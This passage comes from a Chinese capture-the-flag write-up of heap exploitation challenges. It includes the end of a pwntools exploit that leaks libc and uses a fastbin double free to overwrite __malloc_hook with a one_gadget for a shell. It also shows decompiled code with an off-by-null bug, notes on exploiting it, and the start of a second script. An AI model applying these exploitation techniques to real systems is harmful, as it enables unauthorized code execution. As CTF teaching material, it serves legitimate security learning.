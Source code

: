     visit()
    
    io.recvuntil('Name of the flower[2] :aaaaaaa\n')
    leak = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(leak))
    libc_base = leak - 88 -0x10 - libc.symbols['__malloc_hook']
    malloc_hook = libc_base + libc.symbols['__malloc_hook']
    one = 0xe9415 + libc_base
    add(0x60,'a'*0x40,'purple')#3
    add(0x60,'b'*0x40,'black')#4
    
    delete_one(3)
    delete_one(4)
    delete_one(3)
    add(0x60,p64(malloc_hook - 0x23),'white')
    add(0x60,'b'*0x40,'black')
    add(0x60,'b'*0x40,'black')
    add(0x60,'a'*0x3+p64(one),'a')
    log.success(hex(one))
    gdb.attach(io)
    delete_one(1)
    delete_one(1)
    io.interactive()

***12.secret of my heart***
本来以为能在这道题里面找到什么骚操作
想多了，也是一道水题
漏洞就是个offbynull

    _BYTE *__fastcall add_imfo(__int64 *ptr, __int64 len)
    {
      _BYTE *result; // rax
      size_t size; // [rsp+0h] [rbp-20h]
    
      *ptr = len;
      printf("Name of heart :", len);
      get_str(ptr + 1, 0x20u);
      ptr[5] = malloc(size);
      if ( !ptr[5] )
      {
        puts("Allocate Error !");
        exit(0);
      }
      printf("secret of my heart :", 32LL);
      result = (ptr[5] + get_str(ptr[5], size));
      *result = 0;                                  // offbynull
                                                    // 
      return result;
    }
这里就是一个offbynull的利用方式，也是个套路
主要思想就是通过溢出的0字节把size缩小，然后下一次free的时候就不会改变下一个堆块的use位
剩下的没啥好说的，构造uaf，fastbinattack

    from pwn import *
    context.log_level = 'debug'
    io = process('./secret_of_my_heart')
    elf = ELF('secret_of_my_heart')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    